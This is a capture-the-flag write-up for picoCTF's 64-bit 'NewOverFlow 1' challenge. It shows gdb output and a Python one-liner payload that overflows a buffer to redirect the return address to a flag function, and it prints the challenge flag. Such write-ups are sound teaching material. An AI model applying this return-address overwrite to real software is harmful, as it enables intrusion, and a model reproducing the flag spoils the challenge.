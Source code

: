 # NewOverFlow 1
Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](vuln). You can find it in /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123 on the shell server. [Source](vuln.c).

## Hint
Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes

## Solution
Same method from OverFlow 1. We input 64 bytes of a's, check the buffer and see how far we were from the return address.
```asm
(gdb) disas main
...
   0x0000000000400845 <+93>:    callq  0x4007cc <vuln>
   0x000000000040084a <+98>:    mov    $0x0,%eax
```
Address is 0x000000000040084a
```asm
(gdb) b *vuln+25
Breakpoint 1 at 0x4007e5
(gdb) r
Starting program: /problems/newoverflow-1_2_706ae8f01197e5dbad939821e43cf123/vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x00000000004007e5 in vuln ()
(gdb) x/50x $rsp
0x7ffe8a14ca30: 0x61616161      0x61616161      0x61616161      0x61616161
0x7ffe8a14ca40: 0x61616161      0x61616161      0x61616161      0x61616161
0x7ffe8a14ca50: 0x61616161      0x61616161      0x61616161      0x61616161
0x7ffe8a14ca60: 0x61616161      0x61616161      0x61616161      0x61616161
0x7ffe8a14ca70: 0x8a14ca00      0x00007ffe      0x0040084a      0x00000000
```
The return address is saved at 0x7ffe8a14ca78, so we need to fill in 8 more bytes and then `flag`'s address. However, when we try to do this, we run into a segmentation fault with the payload:
```python -c "import struct; print 'a'*(64+8)+struct.pack('I', 0x00400767)" | ./vuln```
It turns out that the solution was to jump to the address 0x00400768 and not 0x00400767, skipping the `push %rbp` instruction. Unusually, the first time I tried it, it seemed to have worked with the address 0x00400767, now it seems that it doesn't work anymore. Thus, our final payload should be:
```python -c "import struct; print 'a'*(64+8)+struct.pack('I', 0x00400768)" | ./vuln```

## Details
Completed: *During competition*  
Points: **200**  
Done by: Cyril  
Flag: `picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_7a154fef}`
